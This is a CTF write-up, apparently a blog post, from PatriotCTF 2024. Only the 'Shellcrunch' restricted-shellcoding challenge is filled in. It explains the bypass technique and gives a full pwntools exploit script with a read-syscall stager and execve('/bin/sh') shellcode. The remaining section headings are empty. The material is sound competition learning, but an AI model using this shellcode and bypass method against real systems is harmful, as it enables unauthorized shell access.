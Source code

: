 ```yaml
---
title: PatriotCtf 2024 Writeups
category: WRITEUP, CTF, SHELLCODING, HEAP, KERNEL, V8
date: September 18th, 2024
description: Writeup of a few challenges from buckeye ctf
---
```



## Shellcrunch

This is a restricted shellcoding problem with two main steps. The first is that we have
to pass a blacklist of bytes. We cannot have any 0x3b, 0x2f, 0x62, 0x69, 0x6e, 0x73, 0x68,
or 0x0. 


Then our shellcode will be passed through an auto xor key cipher. Where the current byte
will be xored with the next byte.


Then finally, 0xf4f4f4f4 (hlt instruction) will replace our payload once in a while. 


The first challenge would be getting past the auto xor key cipher. We can 
write a quick function to make sure our shellcode is passing through the xor cipher
properly. 


Once that occurs, then we have another problem. Our shellcode that has been replaced with
0xf4 will halt execution and stop our shellcode from continuing to execute. To get 
pass this I used a relative jump instruction (jmp 4 0xeb04) to jump over the hlt instructions.


From there, I can do a few bytes for instructions that I need to execute, and then a jmp 4
to skip over the hlt instructions. My goal when calling this shellcode is to call a read to read
in unrestricted shellcode. 


> Generally in any type of restricted shellcoding problem like this, it is the quickest to call read
> to read in more shellcode instead of continuing to craft shellcode in the restricted environment.
> In these types of problems there are a few things that are almost always guarenteed. 


1. The shellcode buffer will be stored in at least one of our registers when executing the shellcode.
a. This is because in order to jump to the address of the shellcode we need to put it into a register and
then execute a jmp reg instruction.
2. the read syscall will be in the binary. (How else can you read in shellcode in the first place.
3. the state of the registers will be more consistent.


With making a read syscall to read in more shellcode our goal. We only have to do 4 things:

* Set rax = 0
* Set rdi = 0 
* Set rsi to our shellcode buffer
* Set rdx = some big enough number (can be anything)


Filling these requirements can usually be easier than trying to call execve("/bin/sh",0,0,0) because we would have to 
get "/bin/sh" into writeable memory, and set rax = 0x3b. These can be more difficult in a restricted shellcoding environments.
Whereas with the read call, all we need to do is xchg and set registers to 0. 


```python
#! /usr/bin/python
from pwn import *

context.update(
        arch="amd64",
        endian="little",
        #log_level="debug",
        log_level="info",
        os="linux",
        terminal=["alacritty", "-e"]
)

to = 2
ru = lambda p,s: p.recvuntil(s, timeout=to)
rl = lambda p: p.recvline()
sla = lambda p,a,b: p.sendlineafter(a, b, timeout=to)
sl = lambda p,a: p.sendline(a)
up = lambda b: int.from_bytes(b, byteorder="little")

SERVICE = "chal.competitivecyber.club"
PORT = 3004

def start(binary):

    gs = '''
        set context-sections stack regs disasm
        set show-compact-regs on
        set resolve-heap-via-heuristic on
        set follow-fork-mode parent
    '''

    if args.GDB:
        return gdb.debug(binary, gdbscript=gs)
    elif args.REMOTE:
        return remote(SERVICE,PORT)
    else:
        return process(binary)


def mangle_shellcode(shellcode):
    shellcode = bytearray(shellcode)
    shell_len = len(shellcode)
    index = (shell_len - 2) // 4 * 4  

    # Reverse the mangle operation by XORing backwards
    while index >= 0:
        shellcode[index] ^= shellcode[index + 1]
        index -= 4

    log.info(f"Mangled shellcode {shellcode}")
    blacklist = [b"\x68", b"\x6e", b"\x73", b"\x2f", b"\x69", b"\x62", b"\x3b", b"\x00"] 

    for b in shellcode: 
        if b in blacklist:
            log.info(f"Invalid shellcode for {b}")
            return bytes(0)
 
    return bytes(shellcode)


def exploit(p,e):
    # Relative jmp 4 to jmp over four hlt instructions
    jmp_4 = b"\xeb\x04"
    
    # Some random filler that will be replaced with 0xf4f4f4f4
    filler = b"\xf4\x90\xf4\x90"

    # Call read(0, &buf, 0x200)
    shellcode =  jmp_4 + filler + asm("xchg rdx, rsi") + asm("xor rdi,rdi")
    shellcode += jmp_4 + filler + asm("add rsi, 0x20") + asm("nop") + asm("nop")
    shellcode += jmp_4 + filler + asm("xchg r11, rdx") + asm("syscall")    

    # execve("/bin/sh", 0, 0)
    easy_shellcode = asm("""
        movabs r15, 0x68732f6e69622f 
        push r15
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        mov eax, 0x3b
        syscall
    """)
         
    mangled_shellcode = mangle_shellcode(shellcode)
     
    log.info(f"Shellcode {shellcode} {len(shellcode)}")
    log.info(f"Mangled shellcode {mangled_shellcode}")

    sl(p,mangled_shellcode)
    #sl(p,shellcode)
    
    pause()

    sl(p, b"\x90"*0x30 + easy_shellcode)


    p.interactive()
    

if __name__=="__main__":
    file = args.BIN

    p = start(file)
    e = context.binary = ELF(file)
    #l = ELF("./libc.so.6")

    exploit(p,e)
```

## Flightscript


## Dirty Fetch




## Baby xss
